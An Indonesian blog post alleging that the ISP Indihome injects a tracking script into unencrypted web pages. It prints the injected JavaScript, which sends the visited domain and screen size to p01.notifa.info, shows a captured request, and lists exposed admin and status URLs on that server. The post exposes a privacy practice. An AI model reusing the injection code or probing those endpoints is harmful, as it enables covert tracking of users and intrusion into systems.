 ```yaml
---
published: true
---
```

## Derita Pelanggan Indihome, Sudah Bayar Datanya Malah Dicuri

Indihome adalah salah satu penyedia layanan internet terbesar di Indonesia. Akhir 2019 setidaknya mereka memiliki 7 juta pelanggan yang tersebar di seluruh Indonesia. Tahun 2020 ini mereka menargetkan memiliki 8,3 juta pelanggan. Total pendapatan perusahaan BUMN ini juga fantastis, setiap tahunnya 18 Triliun. Dibalik semua pencapaian itu, Indihome selama ini dikenal sebagai penyedia layanan internet dengan kualitas layanan yang paling banyak mendapatkan keluhan. Keluhan itu sendiri sering kita lihat di berbagai media sosial yang dibagikan oleh para pelanggan mereka.

Saya sendiri juga menggunakan Indihome untuk internet di rumah, karena tak ada pilihan lain. Saat ini rumah saya hanya terjangkau layanan milik Indihome. Setelah menjadi pelanggan Indihome sekian tahun, saya merasakan berbagai macam gangguan yang saya dapatkan selama berlangganan. Setidaknya ketika tulisan ini ditulis, saya akan menjabarkan gangguan yang saya dapatkan yang menurut saya adalah perbuatan yang melanggar hukum. /

### Tracker Untuk Mencuri Browsing History Pengguna

Saya menggunakan kata "mencuri" karena mengambil sesuatu tanpa izin sangat tepat disebut mencuri. Selain ini dilakukan secara diam-diam, kebanyakan orang awam pasti tidak menyadari hal ini. Jika kamu berlangganan Indihome di rumah, ketika kamu mengunjungi sebuah website yang belum menggunakan SSL atau tepatnya masih menggunakan http belum https, Indihome akan mengambil browsing history milik kamu ketika kamu mengunjungi website tersebut. Penjelasannya dengan contoh kasus sebagai berikut :

Saya sedang mencari sebuah tutorial di Google menggunakan kata kunci "penyebab bulu kucing kusam", setelah itu google menampilkan artikel berikut ini http://www.petnyaku.com/health/dari-kondisi-bulu-bisa-diketahui-kucing-memiliki-masalah-kesehatan/, ketika saya mengunjungi website tersebut, karena belum menggunakan SSL (masih http) Indihome kemudian bisa menyisipkan sebuah script yang berguna untuk mencuri browsing history milik kita. Ketika kamu view-source website yang kamu kunjungi tersebut, kita akan menemukan script seperti berikut ini di bagian paling bawah :

```javascript
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KILNdTu4aXhNvLHVzbE%2fcmJIngqm1SZDgEuphLBm%2f%2f4J1tqyuJYFIkMo%2fASaCza7wmTnLDVhjapRu7oWDCCMdyke7%2bhuxVZH51%2fuUDPDOXYbO3OvmkgHxYCfjjwMLv7OAk2mniAERkIHP0HfTLqo6QXe3pw52b5QLmRu4fOIgzvm88MQ6IJOBTOIPNiJCOi6Chsi9XyFgUfHfgBC17rl8mNyhSAjcshFZFnBd%2ba9uZTBebbZLfKrTdu8upidxRX7Aa3SKTNOaaXkLXkbfgIcB1BZe1i%2f35C0ffGwbfZQzmIjYUmbKvNvzknUAoNu40XCBZM9wBW721NIq4fB0g%2fcyvrUfF3XKmEhpgjeDdA1BzLdrOJL5NFPM%2bsCXDRxhkd4NSkSlNY7H%2bE9qQGWSapNJb3lYnA%2f5RDQqkvOil6xgADRcXjy2bSgJgLgfXC3mH9QMnKPPXBB%2b98E%2bFrOLIh1WtFm2vLLLq6zXs4lMXN%2bi45r%2bTzjQMoMxW5kHIYK%2f8jAJI%2fn%2fx7JgQu56qEc0fTuMy%2bAFXUfdQhfAznNQmIkZE6h9G8Jzze%2fGKPccenLrp3aPzilW%2bjvA%2bb6YWYD4q%2bVNk2fOlg6GYynzBrTpzexxI6BXqmN18k4ZShMLXrN85aeqKg%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
```
Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome. Contoh request nya adalah sebagai berikut :
![indihome1.png]({{site.baseurl}}/images/indigo/indihome1.png)
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :

```javascript
http://p01.notifa.info/3fsmd3/request?id=1&enc=9UwkxLgY9&params=4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KIKtVIeBXVsA20nWKYcnall52ezULp%2fmcTfNfFan0cuYiikcLCpeACUzm1BNnnttoND4zO0lWiBKmHrmr%2bi0d90xJX8mWy7ZHbcj%2fnUElz3UxVDGSMsk9D8IFPr9ZDr6yQpVB2XSlCgjPMNQqcsjqDmJdgB5HOfuQqM4QVdagHG06ugiNYOHvvZcrSqDU8hd%2bXAoWDzREWfoBmvPR8TGobmg2mbp3lMaVRLp8jIL4%2fRQZGXSBrQ9CvV4%2f2IHJYWvdhQC3l%2fzv%2fvT5Aq8kWuJ4LweWoL0DYhLQJ1Rwm5J8J%2btwOOdma5pOSegNhOqAvJjvR5YJ0aaAgNKadpheMvCbF2yLm%2fn2iWdduS7%2bimKg%2bS5CGCTi3Kpo9Ng24YpdQdyN%2fzLG1ipRo38TJ8ongnstvlpR9Kj9hqpSEqwka%2fxjR%2btvRWQjT19zs5MsP3xXji9qFgAIxM6CBoQbxS21AYbuhVE3PJ8TpV53ccq6LpRa%2f5d%2bRgKoCygtm%2bH5pEvgrCgPtElofFWiLUs3b6NUtmI94nuv%2fAjnfYGtj837edhisK0daWSvke8IjzwChxw2%2bJETgU8e5qqlLCRaHOuJcb1y%2fni8v%2bUdts%2fbjPfa0xlCPa2%2bm%2bKfkojGb9dFiiXan3VK3w%3d&idc_r=61826754674&domain=www.petnyaku.com&sw=2304&sh=1296
```

Beberapa parameter diatas berguna untuk mengambil browsing history dan juga resolusi layar perangkat yang kamu gunakan. 

-Website yang kamu kunjungi

```javascript
domain=www.petnyaku.com
```

-Resolusi layar

```javascript
sw=2304&sh=1296
```

Jadi setiap kali kamu mengunjungi sebuah website yang belum menggunakan SSL (masih http) maka Indihome dengan leluasa akan mengambil data website yang kamu kunjungi tersebut. 

### Dibalik p01.notifa.info

Karena saya merasa cukup terganggu da juga penasaran, saya kemudian mencari tau apa yang ada dibalik website tracker milik Indihome ini hanya bermodalkan Google. Kemudian saya mendapatkan 2 link berikut :
![indihome2.png]({{site.baseurl}}/images/indigo/indihome2.png)

Ketika saya mengakses http://p01.notifa.info/3fsmd3/wsadmin/auth/login, halaman tersebut merupakan tempat untuk login internal yang mungkin digunakan content management, tampilannya adalah sebagai berikut :
![indihome3.png]({{site.baseurl}}/images/indigo/indihome3.png)

Lalu link berikutnya adalah http://p01.notifa.info/info/apc/ :
![indihome4.png]({{site.baseurl}}/images/indigo/indihome4.png)


Halaman ini lebih menarik karena berisi statistik dan juga struktur kode yang digunakan untuk website tracker ini. Pada tanggal 14 September 2020 03:00 WIB, pada tab status total hits mencapai angka 26,681,371,055 (26,6 miliar).
![indihome5.png]({{site.baseurl}}/images/indigo/indihome5.png)

Pada tanggal 15 September 2020, total hits mencapai angka 27,577,810,224 (27,5 miliar)
![indihome6.png]({{site.baseurl}}/images/indigo/indihome6.png)

Maka bisa disimpulkan, dalam waktu sehari website tracker milik Indihome tersebut mendapatkan 1 miliar hits. Lalu jika kita berpindah ke tab Visualise Partition, maka akan didapatkan tampilan seperti berikut. Susunan dibalik layar website tracker milik Indihome
![indihome7.png]({{site.baseurl}}/images/indigo/indihome7.png)

Sampai saat ini saya masih belum tau apa alasan Indihome melakukan ini terhadap para pelanggan mereka. Namun kita semua tahu bahwa data seperti browsing history selama ini adalah data yang laku dijual ke pengiklan.

-narsum: [Teguh.co](https://teguh.co/)
